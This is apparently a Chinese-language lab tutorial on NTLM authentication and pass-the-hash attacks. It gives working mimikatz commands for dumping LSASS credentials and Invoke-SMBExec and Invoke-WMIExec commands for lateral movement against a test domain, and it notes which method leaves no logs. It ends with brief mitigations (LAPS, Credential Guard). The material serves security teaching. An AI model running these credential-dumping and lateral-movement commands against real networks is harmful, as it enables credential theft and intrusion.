

## NTLM哈希及NTLM认证

NTLM哈希根据用户明文密码生成，其生成算法此处不表，而仅描述其应用。

在Windows中认证登录时，系统将计算明文密码的NTLM哈希，与预先保存的哈希做比较，相同则登录成功。登录之后Windows将NTLM哈希缓存在系统中（lsass进程），NTLM哈希在系统中将作为用户后续的凭据，在进行NTLM认证时使用。


域环境中NTLM认证的流程如上图所示，主要为五个步骤：

- 客户端向服务器发送访问请求
- 服务器生成一个随机数nonce，发送给客户端
- 客户端使用NTLM哈希对nonce进行加密（即Net-NTLM哈希），发送给server
- server收到客户端加密的nonce后，将其连同客户端信息和nonce发送给DC
- DC根据客户端信息使用对应的NTLM哈希对nonce加密，比较相同则认证成功，返回结果给server

NTLM认证有v1和v2两个版本，主要为nonce长度和加密算法强度的区别：

|            | Nonce长度 | 加密算法 |
| ---------- | --------- | -------- |
| NTLM认证v1 | 8 bytes   | DES      |
| NTLM认证v2 | 16 bytes  | HMAC-MD5 |

从NTLM认证的过程可以看到，对于客户端认证来说，只需要对应用户的NTLM哈希则可以代表该用户完成认证流程，这也是pass the hash攻击的原理。

## 获取NTLM哈希

在获取本地机器管理员或system权限后，可以使用`mimikatz`来获取内存（LSASS进程）中缓存的凭据，凭据不仅包括NTLM哈希，根据不同的环境，还可能会存在缓存的明文密码。

```shell
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
......
```

获取`debug` privilege后，输入`sekurlsa::logonpasswords`来dump出lsass进程中缓存的凭据，输出的结果根据系统版本和补丁情况有所不同：从 Windows 8.1 和 Windows Server 2012 R2 开始，LM 哈希和明文密码将不在内存中保存，此功能可以通过**kb2871997**补丁被移植到较早版本的 Windows 中。


上图分别为在win10与win7环境下的执行结果，可以看到在win7且未打补丁的环境下，可以抓取到LM哈希和明文密码。此外，**kb2871997**补丁对于抓取凭据的影响还有，在安装补丁后，当注销用户时系统会删除对应用户在LSASS进程中的凭据，而在该安全更新之前，只要用户在系统中登录并机器未重启的情况下，即使用户注销，凭据会一直在缓存在内存中。

（在安装补丁后，由于wDigest的特殊性，仍然可以通过更改注册表来缓存明文密码，此处不再赘述）

## NTLM哈希利用POC

在得到一个账户的凭据后，可以利用获得的NTLM哈希实施pass the hash攻击，在没有明文密码的情况下，进行横向移动。

仍然使用mimikatz工具来实现一个POC，利用`sekurlsa::pth`命令：

```shell
sekurlsa::pth /user:test1 /domain:pentest.com /ntlm:cbf698d633423db51e1968e572c3aca7
```


上图所示为利用smb文件共享服务展示的攻击效果，利用`sekurlsa::pth`命令、使用普通域账户`test1@pentest.com`的NTLM哈希，弹出左边的cmd窗口，win-u8916fo3ap4这台机器为开启了文件共享服务、该域账户有权限访问的域内机器；右边的cmd窗口为本地机器管理员账户直接打开，权限为本地机器管理员账户，无权访问域内的SMB服务。

所以通过`test1@pentest.com`账户的NTLM哈希来进行pass the hash攻击，可以直接利用其权限访问smb服务。

## 实战利用

Pass the Hash攻击的利用工具较多，如[ranger](https://github.com/funkandwagnalls/ranger)、[impacket](https://github.com/SecureAuthCorp/impacket)、[Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)等，在metasploit等攻击平台中也有集成此攻击。下面针对两种实战中具体的利用方式进行说明。

### SMBExec

此利用方式要求NTLM哈希对应的用户具有目标机器的管理员权限（具体来说是具有Service Control Manager的写权限），以此控制机器的本地服务。SMBExec的攻击方式与psexec的方式基本一致，利用[MS-SCMR](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f)（Service Control Manager Remote Protocol，一个基于SMB的RPC协议）来创建并启动服务来执行命令，执行命令后再删除对应服务。

值得注意的是，如果不是内置administrator账户或域账户，即使是管理员用户仍然会由于UAC机制而导致无权访问。也就是说，在存在UAC的情况下，只有内置的administrator账户或被加入本地管理员组的域账户能够实施此攻击。

利用Invoke-TheHash工具（基于powershell）来执行SMBExec：

```powershell
Invoke-SMBExec -Target 192.168.232.130 -Domain pentest.com -Username test1 -Hash cbf698d633423db51e1968e572c3aca7 -command "echo 1 > C:/users/test1/a"  -verbose
```

由于命令是由服务形式启动，所以进程会以system权限启动。另外此攻击方式会在目标机器上留下明显的日志记录：



### WMIExec

此种利用方式仍然需要内置管理员账户或者具有本地管理权限的域账户。WMI（Windows Management Instrumentation）提供了远程管理计算机的接口，WMIExec利用WMI的`Win32_Process::Create`方法来新建进程执行命令。

WMIExec通过DCOM协议来远程利用WMI，客户端首先连接135端口，随后远程机器会选择一个随机TCP端口监听来传输数据，所以在有目标机器防火墙开启时，会导致无法连接至新的端口而无法完成攻击。

利用Invoke-TheHash工具攻击：

```shell
PS > Invoke-WMIExec -Target 192.168.232.130 -Domain pentest.com -Username test1 -Hash cbf698d633423db51e1968e572c3aca7 -Command "calc.exe"  -verbose
详细信息: Connecting to 192.168.232.130:135
详细信息: WMI reports target hostname as DESKTOP-QEI3TKC
详细信息: [+] pentest.com\test1 accessed WMI on 192.168.232.130
详细信息: [*] Using DESKTOP-QEI3TKC for random port extraction
详细信息: [*] Connecting to 192.168.232.130:49668
详细信息: [*] Attempting command execution
[+] Command executed with process ID 8984 on 192.168.232.130
```

此种方式执行命令是以所指定的用户权限执行的，并且不会在目标机器中留下日志。

## 防御方式

简单谈一下缓解此攻击的方式（并不全面）：

- Microsoft本地管理员密码解决方案（LAPS）：随机化所有域成员本地管理员密码，密码按照较强的密码策略生成，定期修改。这使得用相同凭据横向渗透变得很困难。
- credential guard：win10引入，CG禁止内存读取，凭据存储在CG中，从lsass输入challenge等信息，CG处理并输出结果

---

参考资料：

[剖析Hash传递攻击的本质、缓解方式及部分绕过手段]([http://blog.sycsec.com/2018/10/02/What-is-Pass-the-Hash-and-the-Limitations-of-mitigation-methods/#microsoft%E6%9C%AC%E5%9C%B0%E7%AE%A1%E7%90%86%E5%91%98%E5%AF%86%E7%A0%81%E8%A7%A3%E5%86%B3%E6%96%B9%E6%A1%88laps](http://blog.sycsec.com/2018/10/02/What-is-Pass-the-Hash-and-the-Limitations-of-mitigation-methods/#microsoft本地管理员密码解决方案laps))

[Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persisten Asynchronous-And-Fileless-Backdoor](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)